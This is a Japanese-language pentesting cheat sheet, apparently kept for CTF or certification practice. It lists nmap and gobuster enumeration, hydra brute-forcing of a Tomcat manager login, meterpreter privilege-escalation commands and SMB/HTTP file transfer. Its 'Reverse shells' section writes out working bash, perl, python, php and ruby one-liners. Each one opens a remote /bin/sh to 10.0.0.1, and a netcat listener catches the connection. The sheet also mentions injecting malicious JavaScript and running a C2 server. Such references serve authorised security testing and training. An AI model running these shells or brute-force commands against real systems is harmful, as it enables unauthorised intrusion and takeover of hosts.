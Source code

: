 # Cheat Sheet


## Enumeration
### nmap
- 全ポートスキャン: `nmap -sS -A -T4 -Pn -p- $IP`
- 特定ポートのチェック: `nmap -sS -A -p[port] --script vuln $IP`

### rustscan
- installation: `sudo snap install -y rustscan`
- 全ポートスキャン: `rustscan -a $IP --ulimit 10000 -- -Pn -A --script vuln > rustscan.log`

### gobuster
- ディレクトリやファイルの探索
  - `gobuster -u http://$IP -w ~/tools/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 50`

### ffuf
- ディレクトリやファイルの探索
- コマンド例
  - ディレクトリ検索: `ffuf`

### WinPEAS
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
- Win系OSのサーバの情報をとる
- 手順
  1. SMB サーバを立てて WinPEAS のあるディレクトリを公開 `sudo python3 ~/tools/impacket/examples/smbserver.py share .`
  2. リモートでダウンロード: `copy \\10.10.14.23\share\x64\Release\winPEASx64.exe`
  3. winPEAS を実行: `./winPEAS.exe`


## Password Cracking
### hydra
- webサービスで総当たりする
- Basic認証総当たり(`user:pass`形式のコーパス): `hydra -C ~/tools/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-post://$IP:8080/manager/html`


## Exploitation
### Webshell
- web上でコマンド実行できる
- https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html

### msfvenom
- metasploitのペイロードを取れる
- ペイロードの列挙: `msfvenom -l payloads`


## Privesc
### local exploit suggester
- meterpreter shell をバックグラウンドに移し、`use post/multi/recon/local_exploit_suggester` する
- sesionオプションを指定し、run 

### Windows Exploit Suggester
- `pip install xlrd==1.2.0` が必要
- `~/tools/Windows-Exploit-Suggester/windows-exploit-suggester.py --update` でデータベース更新
- `~/tools/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2021-06-07-mssb.xls --systeminfo systeminfo.txt`

### meterpreter shell
- `getprivs`: 取得可能な権限をとる
- `getsystem`
- `migrate [pid]`: 安定しているプロセスに移動するとき
- `ps`: 動いているプロセスの一覧
- `shell`: cmd.exe とかに移る
- `sysinfo`: システムの軽い情報調査



## Reverse shells
### Receiver
- `nc -lnvp 4444`

### sender
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- bash: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
- perl: `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- php: `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- ruby: `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`


## Operating System
### Windows Command Prompt
| コマンド名 | 説明 |
|---|---|
| type | ファイルの中身を見る |
| more | ファイルの中身を見る |
| whoami | whoami? |
| icacls (cacls) | ACL の表示や変更: 権限情報がわかる (https://www.atmarkit.co.jp/ait/articles/0601/28/news016.html) |
| systeminfo | OSやシステムの情報を表示 |



## File transfer
### SimpleHTTPserver
- カレントディレクトリをルートとした簡易Webサーバを立てることができる．
  - `sudo python -m SimpleHTTPServer [port]`
- 対象サーバで `<script src="http://.../a.js">`により任意の悪意のあるJavaScriptを実行させることなどが可能

### smbserver.py
- `sudo python3 ~/tools/impacket/examples/smbserver.py share .`


## Miscellaneous

### SilentTrinity
- C2 server を立てることができる
